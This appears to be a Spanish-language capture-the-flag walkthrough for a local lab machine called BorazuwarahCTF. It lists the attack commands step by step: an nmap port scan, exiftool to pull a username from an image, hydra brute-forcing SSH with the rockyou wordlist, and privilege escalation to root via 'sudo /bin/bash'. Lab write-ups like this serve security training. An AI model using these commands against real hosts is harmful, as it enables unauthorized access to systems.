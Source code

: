 Maquina: BorazuwarahCTF

Autor: BorazuwarahCTF

Dificultad: Muy Facil

![Screenshot 2024-11-09 090451](https://github.com/user-attachments/assets/38fca2cf-19c2-44e4-8076-4edb8aeb332a)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-09 090615](https://github.com/user-attachments/assets/cb8cc798-a6a2-4a57-b3fc-c9f8b52c6e4f)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

![Screenshot 2024-11-09 090659](https://github.com/user-attachments/assets/a973446a-2cb3-4ae3-a191-7acc19397d28)

Visitamos la pagina web 
https://172.17.0.2

![Screenshot 2024-11-09 090723](https://github.com/user-attachments/assets/33aac728-ce5f-4058-852f-66ceaf79b7fc)

nos descargamos la imagen
usamos la herramienta exiftool
sudo exiftool imagen.jpeg
encontramos el usuario

![Screenshot 2024-11-09 090821](https://github.com/user-attachments/assets/009ace7b-0714-4036-8c86-a5899dd39f2f)

sudo hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2
obtenemos la contraseña y entramos por ssh

![Screenshot 2024-11-09 091050](https://github.com/user-attachments/assets/bd98e087-c0e3-41bf-a25a-78568d51904c)

ssh borazuwarah@172.17.0.2

![Screenshot 2024-11-09 091111](https://github.com/user-attachments/assets/c30f2c86-6a80-44aa-8217-6c9c0d00b1d3)

sudo -l
sudo /bin/bash
whoami

![Screenshot 2024-11-09 091135](https://github.com/user-attachments/assets/16d62621-8302-41d5-813c-e2bbeeb3bec9)
